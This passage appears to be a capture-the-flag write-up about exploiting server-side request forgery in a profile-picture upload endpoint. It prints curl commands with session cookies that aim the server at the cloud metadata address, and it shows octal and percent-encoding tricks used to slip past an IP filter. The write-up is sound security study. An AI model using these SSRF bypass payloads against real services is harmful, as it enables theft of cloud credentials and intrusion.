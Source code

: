 ```

  const n = await t.blob(),
        a = undefined;

  return {
    blob: n,
    contentType: t.headers.get("Content-Type") || n.type || "application/octet-stream"
  };
}
```

It sends a POST request to `/api/profile/upload_pic` which suggests it fetches the image itself, a classic `Server Side Request Forgery` candidate.
Since a S3 bucket url for the profile image it implied AWS Storage Service was used, therefore a SSRF against cloud metadata.

Since the JS endpoint expects "image_url": "…", I decided to URL encode the metadata, so it passes cleanly.

`
curl -s -X POST http://15.206.47.5:5000/api/profile/upload_pic \
  -H "Content-Type: application/json" \
  -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJfaWQiOiJmMmY5Njg1NS04YzA1LTQ1OTktYTk4Yy1mN2YyZmQ3MThmYTIiLCJ1c2VybmFtZSI6InIwMHR1czNyIn0.aKwCSQ.5Ni2RXk5CxSrxWA3Eq5LHlQRXLQ" \
  -d '{"image_url":"http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Finstance-id"}'
`

I passed the session cookie for authentication, and the image url encoded,however the ip address wasn't encoded which lead to the server rejecting the curl request.

Thus I decided that I needed to encode the ip as well, therefore I tried various ip encoding techniques like decimal,hex,octal,ipv6 but none of them seemed to work.

`password: "l3t%27s%20go%20guys$25"`

This reminded me that I could try percent encoding for the ip in same fashion as that of the `r00tus3r` thus I used the following cmd:

`curl -i \
  -X POST "http://15.206.47.5:5000/api/profile/upload_pic" \
  -H "Content-Type: application/json" \
  -H "Accept: */*" \
  -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJfaWQiOiJmMmY5Njg1NS04YzA1LTQ1OTktYTk4Yy1mN2YyZmQ3MThmYTIiLCJ1c2VybmFtZSI6InIwMHR1czNyIn0.aKvuAw.DXnL0uWC0Xsb7UKHOQDL3lrotdw" \
  -d '{"image_url": "http://0251%2E0376%2E0251%2E0376/latest/meta-data/"}'
`
